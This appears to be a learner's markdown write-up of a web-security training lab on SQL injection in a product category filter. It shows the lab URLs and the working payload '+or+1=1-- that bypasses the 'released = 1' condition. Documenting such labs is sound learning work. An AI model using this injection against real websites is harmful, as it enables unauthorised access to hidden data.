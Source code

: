 # Lab: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data

### SQL injection -> in product category filter

### provided SQL query 
```
SELECT * FROM products WHERE category = 'Gifts' AND released = 1
```

### To solve: perform a SQL injection attack that causes the application to display all unreleased products


### given website: https://0a0c00510463539f8262e499001e0025.web-security-academy.net/

## Solution
- On clicking on any product
https://0a0c00510463539f8262e499001e0025.web-security-academy.net/product?productId=15

- On clicking on catogory
https://0a0c00510463539f8262e499001e0025.web-security-academy.net/filter?category=Accessories

- When the URL is changed with ' then url becomes https://0a0c00510463539f8262e499001e0025.web-security-academy.net/filter?category=%27

%27 is the URL encoded form of '

- The SQL query becomes
```
SELECT * FROM products WHERE category = '' AND released = 1
```

- When visited to corporate gifts we can see url as
https://0a0c00510463539f8262e499001e0025.web-security-academy.net/filter?category=Corporate+gifts

which means there is + sign to add space between

- So, we can use space to add our own query as '+or+1=1-- to check if it works and the sql query will be
```
SELECT * FROM products WHERE category = '' OR 1=1-- AND released = 1 ```
- `--` here in the query is used to comment out the rest of the query that means the query released = 1 is commented out and the query becomes

The method of adding '+or+1=1-- worked and the lab 1 is solved


